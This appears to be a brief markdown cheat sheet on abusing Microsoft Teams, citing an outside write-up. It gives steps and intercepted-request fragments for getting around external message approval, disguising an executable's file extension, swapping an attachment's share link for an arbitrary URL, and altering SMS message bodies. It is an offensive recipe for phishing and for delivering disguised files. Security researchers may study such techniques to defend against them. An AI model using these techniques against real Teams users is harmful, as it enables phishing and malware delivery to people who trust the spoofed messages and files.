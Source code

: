 ### Sending messages from an external organisation
```
Bypass request approval by sending message to 2 persons.
```

### Spoofing file extension
```
Upload file and intercept HTTP request.
Manipulate file extension:

[...]
"properies" : {
  "files" : [{\"@type\": ... \"type\":\"exe\",\"title\":\"file.extensionToManipulate\" ...
[...]
```

### Spoofing attachment link
```
Upload file and intercept HTTP request.
Manipulate the shareUrl value:

[...]
"properies" : {
  "files" :
  ... \"shareUrl\":\"https://urlToManipulate\"
[...]
```

### Manipulate sms messages
```
Type phone number into search bar, send a message and intercept HTTP request.
Manipulate message body value:

[...]
"message":{
  "body":"<p>Insert new message</p>"
[...]
```

### Ressource
https://mrd0x.com/microsoft-teams-abuse

